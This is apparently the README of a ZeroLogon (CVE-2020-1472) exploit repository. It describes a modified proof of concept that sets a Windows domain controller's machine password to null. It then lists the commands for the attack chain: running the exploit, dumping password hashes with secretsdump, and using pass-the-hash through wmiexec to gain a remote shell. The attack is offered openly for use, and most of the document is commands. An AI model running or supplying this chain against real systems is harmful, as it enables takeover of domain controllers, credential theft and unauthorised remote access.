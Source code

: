 # ZeroLogon - Exploit and Example
Modified the test PoC from [Secura](https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py), CVE-2020-1472, in order to change the machine's password to null.
Changing the password on the machine uses [Microsoft's NetrServerPasswordSet2()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81) function.  This exploit takes advantage of [Impacket's nrpc.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/dcerpc/v5/nrpc.py) module to call NetrServerPasswordSet2(). 

## Run the exploit
`./zerologon_NULLPASS.py <dc-name> <dc-ip>`
![](https://i.imgur.com/R4Jui6O.png)

## Dump the hashes
`secretsdump.py -no-pass <dc-name>\$@<dc-ip>`
![](https://i.imgur.com/7GaZ9NY.png)

## Pass-The-Hash for shell access
`wmiexec.py -hashes <LM:NT> <username>@<ip>`
![](https://i.imgur.com/NCFVJ1o.png)
